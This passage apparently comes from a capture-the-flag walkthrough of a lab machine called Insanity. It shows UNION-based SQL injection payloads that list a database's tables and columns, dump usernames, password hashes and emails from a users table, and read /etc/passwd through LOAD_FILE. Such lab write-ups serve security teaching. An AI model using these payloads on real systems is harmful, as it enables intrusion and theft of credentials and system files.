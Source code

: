 Let's see what's inside the `monitoring` database. 

```sql
a" UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables where table_schema = 'monitoring' -- -
```

![5b7751d03e42bf92938f54026b9543d3.png](/images/vh-insanity1/4d3723515ca64f41851190bb72c8a5e6.png)

The `users` table seems interesting, so let's check that out. 

```sql
a" UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns where table_name = 'users' -- -
```

![d9155f10599cd0cafac0b3a5558211df.png](/images/vh-insanity1/874f7956b44f4a219b3c60e19fd477ec.png)

```sql
a" UNION SELECT group_concat(username),group_concat(password),group_concat(email),4 FROM monitoring.users -- -
```

![5e46061f7905edbb69336a0dd366ed68.png](/images/vh-insanity1/55449ae290284ac4a472ce98a5b9b463.png)

Awesome, we got the usernames, password hashes and email addresses of the users who are eligible to access this monitoring page. Not so awesome, we didn't manage to crack those after quite a long time. 

So let's move on to reading files instead. 

```sql
a" UNION SELECT LOAD_FILE('/etc/passwd'),2,3,4 as result -- -
```
